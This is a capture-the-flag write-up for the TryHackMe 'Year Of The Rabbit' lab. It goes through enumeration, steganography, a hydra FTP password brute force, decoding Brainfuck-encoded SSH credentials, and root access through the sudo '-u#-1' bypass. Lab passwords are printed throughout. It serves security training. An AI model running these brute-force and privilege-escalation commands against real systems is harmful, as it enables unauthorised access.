






# Year Of The Rabbit (THM)

- https://tryhackme.com/room/yearoftherabbit
- March 5, 2023
- easy
- it is not that easy

---

## Enumeration

### Nmap

1. 21/ftp vsftpd 3.0.2
2. 22/ssh OpenSSH 6.7p1 Debian 5 (protocol 2.0)
3. 80/http Apache httpd 2.4.10 ((Debian))
   - Apache2 Debian Default Page

### HTTP

- brute force with ffuf and found `assets` directory
  

- in style.css



- if we use browser, it will redirect to YouTube.
- so use curl, to see, what's happening there.

```sh
$ curl http://$IP/sup3r_s3cr3t_fl4g.php -v
...
< HTTP/1.1 302 Found
< Date: Sat, 04 Mar 2023 18:38:15 GMT
< Server: Apache/2.4.10 (Debian)
< Location: intermediary.php?hidden_directory=/WExYY2Cv-qU
< Content-Length: 0
< Content-Type: text/html; charset=UTF-8

```

- find `WExYY2Cv-qU` and open it



- running stegoveritas show ftpusername and one of them may be password



- it saved that file in trailing_data.bin
- saved password list into ftp_passwords.txt and brute force with hydra

```sh
$ hydra -l ftpuser -P ftp_passwords.txt ftp://$IP
# login: ftpuser   password: 5iez1wGXKfPKQ
```

- enter ftp and get Eli's_Creds.txt



- need to decrypt that file
- I don't know that cipher and ask chatGPT and it is said it is a BrainFuck program but he can't decrypt it
- use this website to decrypt https://www.dcode.fr/brainfuck-language

```
User: eli
Password: DSpDiM1wAEwid
```

- it may be ssh login

## Get User Access

- enter ssh with above credentials
- eli can't run sudo
- there are three users - eli, gwendoline, ftpuser
- go around and find, but nothing found
- go to tmp, get linpeas and run linpeas
- what! nothing useful found
- i miss one message when first entering into ssh

```
Message from Root to Gwendoline:

"Gwendoline, I am not happy with you. Check our leet s3cr3t hiding place. I've left you a hidden message there"
```

- need to find `s3cr3t` file or folder

```sh
eli@year-of-the-rabbit:~$ locate s3cr3t
/usr/games/s3cr3t
/usr/games/s3cr3t/.th1s_m3ss4ag3_15_f0r_gw3nd0l1n3_0nly!
/var/www/html/sup3r_s3cr3t_fl4g.php

eli@year-of-the-rabbit:/usr/games/s3cr3t$ cat .th1s_m3ss4ag3_15_f0r_gw3nd0l1n3_0nly\!
Your password is awful, Gwendoline.
It should be at least 60 characters long! Not just MniVCQVhQHUNI
Honestly!

Yours sincerely
   -Root
```

- change into gwendoline user

```sh
eli@year-of-the-rabbit:/usr/games/s3cr3t$ su gwendoline
Password:
gwendoline@year-of-the-rabbit:/usr/games/s3cr3t$ whoami
gwendoline

gwendoline@year-of-the-rabbit:/usr/games/s3cr3t$ sudo -l
Matching Defaults entries for gwendoline on year-of-the-rabbit:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User gwendoline may run the following commands on year-of-the-rabbit:
    (ALL, !root) NOPASSWD: /usr/bin/vi /home/gwendoline/user.txt
```

## Get Root Access

- `sudo --version` is 1.8.10p3 and it is vulnerable to sudo bypass
- https://www.exploit-db.com/exploits/47502

```sh
$ sudo -u#-1 /usr/bin/vi /home/gwendoline/user.txt
```



```sh
root@year-of-the-rabbit:/usr/games/s3cr3t# whoami
root

```

---
